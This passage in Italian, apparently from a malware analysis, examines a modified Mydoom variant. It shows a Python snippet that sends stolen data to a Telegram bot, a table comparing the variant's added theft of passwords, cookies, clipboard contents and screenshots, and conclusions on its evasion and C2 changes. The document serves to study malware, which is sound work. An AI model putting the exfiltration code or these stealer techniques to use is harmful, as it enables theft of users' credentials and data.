    per inviare dati direttamente a un hacker:

  ```python
  token = "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11"
  chat_id = "987654321"
  requests.get(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={chat_id}&text={stolen_data}")
  ```

------



📌 **Tabella comparativa per evidenziare le differenze tra le due versioni:**

| **Tipo di Dato**        | **Mydoom Originale**        | **Variante Modificata**                  |
| ----------------------- | --------------------------- | ---------------------------------------- |
| **Indirizzi Email**     | ✅ Raccolta dai file locali  | ✅ Migliorata, ora supporta più formati   |
| **Credenziali Salvate** | ✅ `.PWL`, `.DAT` di Windows | ✅ Password browser decriptate con DPAPI  |
| **Sessioni Web**        | ❌ Non supportato            | ✅ Estrazione da cookie SQLite            |
| **Clipboard Spying**    | ❌ Non supportato            | ✅ Raccoglie dati copiati dalla clipboard |
| **Screenshot**          | ❌ Non supportato            | ✅ Cattura immagini dello schermo         |
| **Esfiltrazione**       | HTTP, FTP                   | HTTP, Telegram Bot, Tor Hidden Services  |


 Ora Mydoom non è solo un **worm distruttivo**, ma anche un **data stealer avanzato**, con tecniche più sofisticate di raccolta e trasmissione.

## **Conclusioni**

L'analisi di questa variante di Mydoom evidenzia miglioramenti significativi rispetto all'originale:

- **Maggiore efficacia nella propagazione**, grazie a un migliore filtraggio delle email e un meccanismo P2P più sofisticato.
- **Migliori tecniche di offuscamento**, con una crittografia più dinamica e un offuscamento esteso delle stringhe.
- **Aumento della persistenza**, con nuovi metodi di registrazione nel sistema e tecniche per mantenere il malware attivo in memoria.
- **Miglioramento della comunicazione con il C2**, con un protocollo più difficile da analizzare e un proxy SOCKS4 più stabile.

Queste modifiche suggeriscono che l'obiettivo della variante modificata è quello di rendere il malware più resistente alle difese moderne, aumentando la sua longevità e la sua capacità di evasione.

